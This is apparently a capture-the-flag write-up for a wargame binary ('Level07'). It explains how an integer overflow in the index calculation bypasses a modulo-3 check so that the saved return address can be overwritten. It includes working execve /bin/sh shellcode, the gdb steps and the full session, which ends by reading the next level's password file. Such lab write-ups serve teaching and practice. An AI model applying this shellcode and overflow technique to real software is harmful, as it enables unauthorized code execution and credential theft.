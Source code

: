 # Level07

This binary provides a simple number storing interface with three commands:		
- `store`, saves input number (int == 4 bytes) at input index (offset = index * 4).		
- `read`, display number stored at input index.		
- `quit`, exit the program.		

This effectively allows us to write anything we want on the stack 4 bytes at a time.		
We will overwrite the `EIP` save to take control of the execution flow and redirect to some **shellcode**.
However there is a `input index % 3` check that prevents us from saving at any index that is divisible by 3.		
To obtain the correct offset to save the value at, the program takes the input index and `shl eax, 2` which effectively multiplies by 4.		

To `store` at an index divisible by 3, we can simply input a value that will overflow to the true index value after the `shl eax, 2`. For example, to `store` at index 0, we can input `1073741824`. Debugging is easy with the `read` command.		

## Obtaining RET offset index
Lets find the `EIP` save relative to the start of the buffer:		
4 pushed registers (16)		
`and esp, 0xfffffff0` (alignment to 16 bytes, removed 12 bytes)		
size of stack: `0x1d0` (464)		
start of buffer: `esp+0x24` (36)		

`(464-36+16+12)/4 = 114`		

Find the integer that will overflow to `114 * 4`:		
`1073741824` (a quarter of UINT_MAX)		
`1073741824 + 114`		
`1073741938`		

We can use read command to check if we are storing at the correct index (it should segfault when we quit)		
```bash
./level07
Input command: store
 Number: 45
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 45
 Completed read command successfully
Input command: quit
Segmentation fault (core dumped)
```

## Injecting our **shellcode**
This program flushes environment variables and globals at the start of the execution disabling us from using them to store our **shellcode**. We will have to store the **shellcode** inside the databasei buffer.		
Lets find the address of our buffer:
```bash
gdb level07
b *0x08048795	; its address is loaded into ebx here
r
Breakpoint 1, 0x08048795 in main ()
p (void*)$ebx
$1 = (void *) 0xffffd504

printf %d 0xffffd504
4294956292
```
Because gdb adds runtime environment variables, the address of our buffer is innacurate, adding some '\90' instruction padding and increasing our address by 32 bytes is enough to reach it.		

Our shellcode:		
```bash
\x90\x90\x90\x90 \x90\x90\x90\x90 \x90\x90\x90\x90 \x90\x90\x90\x90 \x6a\x0b\x58\x99 \x52\x68\x2f\x2f \x73\x68\x68\x2f \x62\x69\x6e\x89 \xe3\x31\xc9\xcd \x80 ; 21 bytes execv() shellcode + 16 bytes of padding
```
All that is left is placing our shellcode inside the buffer:		
- divide into 4 bytes sections		
- reverse them		
- convert to decimal		
- store them starting from index 0 (using the overflow exploit)		

```bash
printf %d 0xffffd536 ; address of buffer +32
4294956342

./level07
Input command: store
 Number: 4294956292
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956292
 Completed read command successfully
Input command: store
 Number: 2425393296
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 2425393296
 Index: 1
 Completed store  command successfully
Input command: store
 Number: 2425393296
 Index: 2
 Completed store command successfully
Input command: store
 Number: 2425393296
 Index: 1073741827
 Completed store command successfully
Input command: store
 Number: 2572684138
 Index: 4
 Completed store command successfully
Input command: store
 Number: 791636050
 Index: 5
 Completed store command successfully
Input command: store
 Number: 795371635
 Index: 1073741830
 Completed store command successfully
Input command: store
 Number: 2305714530
 Index: 7
 Completed store command successfully
Input command: store
 Number: 3452514787
 Index: 8
 Completed store command successfully
Input command: store
 Number: 128
 Index: 1073741833
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956292
 Completed read  command successfully
Input command: store
 Number: 4294956342
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956342
 Completed read command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

